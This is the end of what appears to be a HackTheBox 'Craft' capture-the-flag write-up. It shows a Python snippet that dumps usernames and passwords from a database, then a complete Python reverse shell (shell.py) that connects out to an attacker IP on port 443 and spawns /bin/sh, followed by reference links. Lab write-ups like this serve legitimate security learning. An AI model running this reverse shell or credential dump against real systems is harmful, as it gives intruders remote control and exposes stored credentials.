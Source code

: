 ```python
    with connection.cursor() as c:
        sql = "SELECT `username`,`password` from `user`"
        c.execute(sql)
        result = c.fetchall()
        print(result)
except Exception as e:
    print(e)
finally:
    connection.close()
```

# shell.py
```python
#!/usr/bin/env python3
import os
import socket
import subprocess

lhost = "10.10.14.28"
lport = 443

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```


[1]: https://www.vaultproject.io/ "Vault by HashiCorp"
[2]: https://gogs.io/ "Gogs is a self-hosted Git service"
[3]: https://www.hackthebox.eu/home/machines/profile/197 "HackTheBox: Craft"
[4]: https://docs.python.org/3/library/functions.html?highlight=eval#eval "Python3 eval function"
[5]: https://docs.python.org/3/library/os.html?highlight=os#module-os "Python3 os.system"
[6]: https://docs.python.org/3/reference/simple_stmts.html#import "Python3 Import statement"
[7]: https://docs.python.org/3/library/functions.html#__import__ "Python3 __import__ function"